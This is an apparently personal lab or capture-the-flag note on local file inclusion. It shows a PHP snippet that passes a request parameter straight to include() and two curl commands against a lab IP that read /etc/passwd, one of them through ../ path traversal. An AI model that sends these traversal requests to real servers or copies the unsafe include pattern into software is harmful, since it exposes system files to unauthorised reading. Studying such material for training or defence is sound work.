 ```yaml
---
title: LOCAL FILE INCLUSION
updated: 2023-11-01 06:47:43Z
created: 2023-11-01 06:38:58Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


`http://<SERVER>/?file=index.php`

```
if ($_GET['file']) {
include($_GET['file']);
} else {
header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");
}
```

1. Try reading readable file:
`curl http://10.129.95.185/?file=/etc/passwd`
`curl http://10.129.95.185/?file=../../../../../../../etc/passwd`

